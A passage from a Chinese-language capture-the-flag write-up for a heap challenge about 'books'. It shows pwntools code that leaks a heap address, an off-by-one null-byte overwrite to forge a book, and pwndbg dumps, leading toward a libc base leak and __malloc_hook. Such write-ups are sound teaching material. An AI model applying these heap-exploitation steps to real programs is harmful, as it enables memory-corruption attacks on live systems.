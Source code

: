 ```python
 45 pause()#1
 46 create(48,"HHHHHHH",200,(""))  #1
 47 pause()#2
 48 show()
 49 
 50 p.recvuntil("a"*32)
 51 book1=u64(p.recv(6)+'\x00'*2)
 52 log.success("book1 -> {:#x}".format(book1))
```

这样我们就能获得我们所欲需要的第一本书的地址了，

然后我们的想法是，对第一本书进行edit，我们的edit只能编写我们的书的description的地址以后的内容，而且又长度限制，所以我们没有办法overflow到下一本书，这里我们可以继续利用one-byte-off，把name重新写进去，把我们第一本书的最后的字节变为\x00

即把0x5567bf82e130变为0x5567bf82e100，这样，我们就能伪造处一个book

```
0x5567be53b050:	0x3131313131313131	0x3131313131313131
0x5567be53b060:	0x00005567bf82e130	0x0000000000000000
```

变为

```
pwndbg> x/100xg 0x5567be53b000
0x5567be53b000:	0x0000000000000000	0x00005567be53b008
0x5567be53b010:	0x00005567be53b060	0x00005567be53b040
0x5567be53b020:	0x0000000100000000	0x0000000000000000
0x5567be53b030:	0x0000000000000000	0x0000000000000000
0x5567be53b040:	0x3131313131313131	0x3131313131313131
0x5567be53b050:	0x3131313131313131	0x3131313131313131
0x5567be53b060:	0x00005567bf82e100	0x0000000000000000

```

此时我们就可以通过edit1，操作0x00005567bf82e100的数据块了，但是我们的目的不是这个，我们现在edit的book1是0x00005567bf82e100+0x18的数据块里即discription的内容，我们需要虚造一个地址，使discription指向他，然后进行修改，本来我想着可以直接指向libc里的表即__malloc_hook但是事实的情况是我们并不知道libc的基址，所以我们要先算机制。我们曾经记得，如果申请的malloc很大，我们就会指向libc里的块。ok，我们把第二本书的discription的地址指到libc里吧，具体的create： create(16,"AAAAAA",0x21000,"BBBBB")

我们造了个这个玩意。

这个玩意的内容是啥呢?查看一下

```
pwndbg> x/100xg 0x5567be53b000
0x5567be53b000:	0x0000000000000000	0x00005567be53b008
0x5567be53b010:	0x00005567be53b060	0x00005567be53b040
0x5567be53b020:	0x0000000200000000	0x0000000000000000
0x5567be53b030:	0x0000000000000000	0x0000000000000000
0x5567be53b040:	0x3131313131313131	0x3131313131313131
0x5567be53b050:	0x3131313131313131	0x3131313131313131
0x5567be53b060:	0x00005567bf82e100	0x00005567bf82e180 -> 第二本书
```

```
0x5567bf82e180:	0x0000000000000002	0x00005567bf82e160 ->name
0x5567bf82e190:	0x00007f18a4045010	0x0000000000021000
```
